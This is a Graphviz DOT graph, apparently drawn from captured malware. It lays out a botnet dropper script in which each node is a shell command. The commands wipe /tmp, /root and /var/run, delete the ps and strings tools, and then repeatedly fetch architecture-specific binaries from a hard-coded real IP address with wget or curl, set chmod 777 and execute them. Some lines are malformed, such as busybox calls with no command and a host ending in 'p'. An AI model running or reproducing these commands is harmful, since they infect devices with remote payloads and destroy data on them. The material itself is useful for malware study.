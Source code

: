 digraph {
0 [label="ulimit -n 712 "];
0 -> 0
2 [label="busybox rm -rf /tmp/* "];
2 -> 2
4 [label="busybox rm -rf /root/* "];
4 -> 4
6 [label="busybox rm -rf /usr/bin/strings "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/ps "];
8 -> 8
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 16 [label=";,"];
16 [label="wget http://94.177.247.86/snnarmv5 "];
16 -> 18 [label=";,"];
18 [label="busybox wget http://94.177.247.86/snnarmv5 "];
18 -> 20 [label="||,"];
20 [label="curl -O http://94.177.247.86/snnarmv5 "];
20 -> 22 [label="||,"];
22 [label="busybox curl -O http://94.177.247.86/snnarmv5 "];
22 -> 24 [label=";,"];
24 [label="chmod 777 snnarmv5 "];
24 -> 26 [label=";,"];
26 [label="./snnarmv5 "];
26 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 34 [label=";,"];
34 [label="wget http://94.177.247.86/snni686 "];
34 -> 36 [label=";,"];
36 [label="busybox wget http://94.177.247.86/snni686 "];
36 -> 38 [label="||,"];
38 [label="curl -O http://94.177.247.86/snni686 "];
38 -> 40 [label="||,"];
40 [label="busybox curl -O http://94.177.247.86/snni686 "];
40 -> 42 [label="||,"];
42 [label="chmod 777 snni686 "];
42 -> 44 [label=";,"];
44 [label="./snni686 "];
44 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 52 [label=";,"];
52 [label="wget http://94.177.247.86/snnmips "];
52 -> 54 [label=";,"];
54 [label="busybox wget http://94.177.247.86/snnmips "];
54 -> 56 [label="||,"];
56 [label="curl -O http://94.177.247.86/snnmips "];
56 -> 58 [label="||,"];
58 [label="busybox curl -O http://94.177.247.86/snnmips "];
58 -> 60 [label="||,"];
60 [label="chmod 777 snnmips "];
60 -> 62 [label=";,"];
62 [label="./snnmips "];
62 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 70 [label=";,"];
70 [label="wget http://94.177.247.86/snnmipsel "];
70 -> 72 [label=";,"];
72 [label="busybox wget http://80.211.153.205p/snnmipsel "];
72 -> 74 [label="||,"];
74 [label="curl -O http://94.177.247.86/snnmipsel "];
74 -> 76 [label="||,"];
76 [label="busybox curl -O http://94.177.247.86/snnmipsel "];
76 -> 78 [label="||,"];
78 [label="chmod 777 snnmipsel "];
78 -> 80 [label=";,"];
80 [label="./snnmipsel "];
80 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 88 [label=";,"];
88 [label="wget http://94.177.247.86/snnpowerpc440fp "];
88 -> 90 [label=";,"];
90 [label="busybox wget http://94.177.247.86/snnpowerpc440fp "];
90 -> 92 [label="||,"];
92 [label="curl -O http://94.177.247.86/snnpowerpc440fp "];
92 -> 94 [label="||,"];
94 [label="busybox curl -O http://94.177.247.86/snnpowerpc440fp "];
94 -> 96 [label="||,"];
96 [label="chmod 777 snnpowerpc440fp "];
96 -> 98 [label=";,"];
98 [label="./snnpowerpc440fp "];
98 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 106 [label=";,"];
106 [label="wget http://94.177.247.86/snnsparc "];
106 -> 108 [label=";,"];
108 [label="busybox wget http://94.177.247.86/snnsparc "];
108 -> 110 [label="||,"];
110 [label="curl -O http://94.177.247.86/snnsparc "];
110 -> 112 [label="||,"];
112 [label="busybox curl -O http://94.177.247.86/snnsparc "];
112 -> 114 [label="||,"];
114 [label="chmod 777 snnsparc "];
114 -> 116 [label=";,"];
116 [label="./snnsparc "];
116 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 124 [label=";,"];
124 [label="wget http://94.177.247.86/snnarmv4 "];
124 -> 126 [label=";,"];
126 [label="busybox wget http://94.177.247.86/snnarmv4 "];
126 -> 128 [label="||,"];
128 [label="curl -O http://94.177.247.86/snnarmv4 "];
128 -> 130 [label="||,"];
130 [label="busybox curl -O http://94.177.247.86/snnarmv4 "];
130 -> 132 [label="||,"];
132 [label="chmod 777 snnarmv4 "];
132 -> 134 [label=";,"];
134 [label="./snnarmv4 "];
134 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 142 [label=";,"];
142 [label="wget http://94.177.247.86/snni586 "];
142 -> 144 [label=";,"];
144 [label="busybox wget http://94.177.247.86/snni586 "];
144 -> 146 [label="||,"];
146 [label="curl -O http://94.177.247.86/snni586 "];
146 -> 148 [label="||,"];
148 [label="busybox curl -O http://94.177.247.86/snni586 "];
148 -> 150 [label="||,"];
150 [label="chmod 777 snni586 "];
150 -> 152 [label=";,"];
152 [label="./snni586 "];
152 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 160 [label=";,"];
160 [label="wget http://94.177.247.86/snnm86k "];
160 -> 162 [label=";,"];
162 [label="busybox http://94.177.247.86/snnm86k "];
162 -> 164 [label="||,"];
164 [label="curl -O http://94.177.247.86/snnm86k "];
164 -> 166 [label="||,"];
166 [label="busybox curl -O http://94.177.247.86/snnm86k "];
166 -> 168 [label="||,"];
168 [label="chmod 777 snnm86k "];
168 -> 170 [label=";,"];
170 [label="./snnm86k "];
170 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 178 [label=";,"];
178 [label="wget http://94.177.247.86/snnmips64 "];
178 -> 180 [label=";,"];
180 [label="busybox http://94.177.247.86/snnmips64 "];
180 -> 182 [label="||,"];
182 [label="curl -O http://94.177.247.86/snnmips64 "];
182 -> 184 [label="||,"];
184 [label="busybox curl -O http://94.177.247.86/snnmips64 "];
184 -> 186 [label="||,"];
186 [label="chmod 777 snnmips64 "];
186 -> 188 [label=";,"];
188 [label="./snnmips64 "];
188 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 196 [label=";,"];
196 [label="wget http://94.177.247.86/snnpowerpc "];
196 -> 198 [label=";,"];
198 [label="busybox http://94.177.247.86/snnpowerpc "];
198 -> 200 [label="||,"];
200 [label="curl -O http://94.177.247.86/snnpowerpc "];
200 -> 202 [label="||,"];
202 [label="busybox curl -O http://94.177.247.86/snnpowerpc "];
202 -> 204 [label="||,"];
204 [label="chmod 777 snnpowerpc "];
204 -> 206 [label=";,"];
206 [label="./snnpowerpc "];
206 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 214 [label=";,"];
214 [label="wget http://94.177.247.86/snnsh4 "];
214 -> 216 [label=";,"];
216 [label="busybox http://94.177.247.86/snnsh4 "];
216 -> 218 [label="||,"];
218 [label="curl -O http://94.177.247.86/snnsh4 "];
218 -> 220 [label="||,"];
220 [label="busybox curl -O http://94.177.247.86/snnsh4 "];
220 -> 222 [label="||,"];
222 [label="chmod 777 snnsh4 "];
222 -> 224 [label=";,"];
224 [label="./snnsh4 "];
224 -> 226 [label=";,"];
226 [label="cd /tmp "];
226 -> 226
228 [label="cd /var/run "];
228 -> 230 [label="||,"];
230 [label="rm -rf * "];
230 -> 232 [label=";,"];
232 [label="wget http://94.177.247.86/snnx86 "];
232 -> 234 [label=";,"];
234 [label="busybox http://94.177.247.86/snnx86 "];
234 -> 236 [label="||,"];
236 [label="curl -O http://94.177.247.86/snnx86 "];
236 -> 238 [label="||,"];
238 [label="busybox curl -O http://94.177.247.86/snnx86 "];
238 -> 240 [label="||,"];
240 [label="chmod 777 snnx86 "];
240 -> 242 [label=";,"];
242 [label="./snnx86 "];
242 -> 243 [label=";,"];
}
